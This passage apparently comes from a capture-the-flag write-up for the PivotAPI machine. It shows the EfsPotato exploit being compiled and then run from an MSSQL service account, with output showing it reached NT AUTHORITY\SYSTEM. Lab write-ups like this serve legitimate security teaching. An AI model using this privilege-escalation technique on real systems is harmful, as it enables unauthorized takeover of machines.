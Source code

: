     This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

    efspotato.cs(103,29): warning CS0618: 'System.IO.FileStream.FileStream(System.IntPtr, System.IO.FileAccess, bool)' is
            obsolete: 'This constructor has been deprecated.  Please use new FileStream(SafeFileHandle handle, FileAccess
            access) instead, and optionally make a new SafeFileHandle with ownsHandle=false if needed.
            http://go.microsoft.com/fwlink/?linkid=14202'



The warning is something that can be ignored.

It makes an EXE:



    PS > ls .\efspotato.*


        Directory: C:\Users\0xdf\Desktop


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         11/7/2021   6:21 AM          24899 efspotato.cs
    -a----         11/7/2021   6:31 AM          16384 efspotato.exe



I'll move that back to my Linux VM, and then upload it to
`C:\programdata` on PivotAPI.

#### Execution

Running this is quite simple - it just needs the command that I want to
run as SYSTEM. For example:



    CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\efs.exe whoami
    Exploit for EfsPotato(MS-EFSR EfsRpcOpenFileRaw with SeImpersonatePrivilege local privilege escalation vulnerability).
    Part of GMH's fuck Tools, Code By zcgonvh.

    [+] Current user: NT Service\MSSQL$SQLEXPRESS
    [!]binding ok (handle=1045990)
    [+] Get Token: 748
    [!] process with pid: 3980 created.
    ==============================
    nt authority\system



From here I could read `root.txt`, or put a hole in the firewall so I
could get a reverse shell.

## SeBackupVolume
